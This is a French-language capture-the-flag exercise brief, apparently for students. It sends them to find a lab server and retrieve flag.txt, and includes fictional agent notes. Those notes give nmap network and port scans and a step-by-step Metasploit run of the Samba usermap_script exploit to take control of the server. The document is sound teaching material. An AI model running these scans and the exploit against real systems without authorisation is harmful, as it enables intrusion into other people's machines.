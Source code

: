 # Ordre de mission

Lors de votre stage de 2ème année, vous avez eu la chance d'intégrer l'ANSSI (Agence Nationale de la Sécurité des Systèmes d'Information) pour quelques mois. Un des agents de votre équipe a dérobé un serveur contenant des informations que vous devez absolument récupérer. La direction de l'ANSSI vous fait confiance et vous donne carte blanche pour récupérer ces informations.

Votre mission est de récupérer les informations contenues dans le fichier `flag.txt` situé sur le serveur. Ce serveur a été branché quelque part sur le réseau de l'ANSSI. L'ANSSI vous met à disposition une machine Kali Linux pour attaquer le serveur. Trouvez le serveur, attaquez-le et récupérez le fichier.

La sécurité de la France en dépend. Bonne chance agent.

PS : l'agent qui a dérobé le serveur vous a laissé ses notes pour vous aider à pirater le serveur. Votre responsable de stage pourras vous aidez, mais attention il est très occupé, ne le dérangé pas trop souvent.

# Notes de l'agent White

L'agent White a laissé ses notes personnelles sur la manière de pirater un serveur. Voici ce qu'il a écrit :

## Scan du réseau

Je dois premièrement connaître le réseau sur lequel je suis. Pour cela je peux utiliser la commande `ifconfig` pour connaître mon adresse IP et le masque de sous-réseau.

```bash
ifconfig
```

Ok je connais mon adresse IP et le masque de sous-réseau. Maintenant je dois scanner le réseau pour trouver le serveur. Je peux scanner le réseau avec un outil appelé `nmap`. Cet outil permet de scanner les ports ouverts sur une machine (les ports sont des points de connexion à une machine). Pour scanner le réseau, je peux utiliser la commande suivante :

```bash
nmap -sn <IP>/<masque>
```

## Scan des ports

Maintenant que je connais les machines connectées sur le réseau, je dois scanner les ports ouverts sur ces machines pour trouver une faille. Pour cela je peux utiliser la commande suivante :

```bash
nmap -p- -A <IP>
```

S'il y a des ports ouverts, je peux essayer de pirater le serveur, sinon je dois chercher une autre machine.

Si j'ai trouvé une machine avec des ports ouverts, je peux essayer de pirater le serveur. Pour cela je peux utiliser des outils comme `metasploit`. Cet outil permet de trouver des failles dans les services qui tournent sur le serveur et de les exploiter pour prendre le contrôle du serveur.

## Exploitation

Un collègue m'a récemment parlé d'une faille dans le service Samba `microsoft-ds` (serveurs de fichiers pour Microsoft). Voici comment il l'a exploitée :

```bash
# Ouvrir metasploit
msfconsole
# Rechercher le module pour exploiter la faille
msf6 > search samba
# Charger le module
msf6 > use exploit/multi/samba/usermap_script
# Configurer le module
msf6 > show options
msf6 > set RHOSTS <IP_SERVEUR>
msf6 > set LHOST <IP_KALI>
# Exécuter le module
msf6 > exploit
```

À partir de là, il devait être dans la machine mais je ne me souviens plus de la suite.

## Commandes Linux Pratiques

Quelques commandes Linux que j'utilise souvent :

```bash
# Lister les fichiers et dossiers dans le répertoire courant
ls
# Changer de répertoire
cd <nom_dossier>
# Lire le contenu d'un fichier
cat <nom_fichier>
# Afficher le chemin du répertoire courant
pwd
```
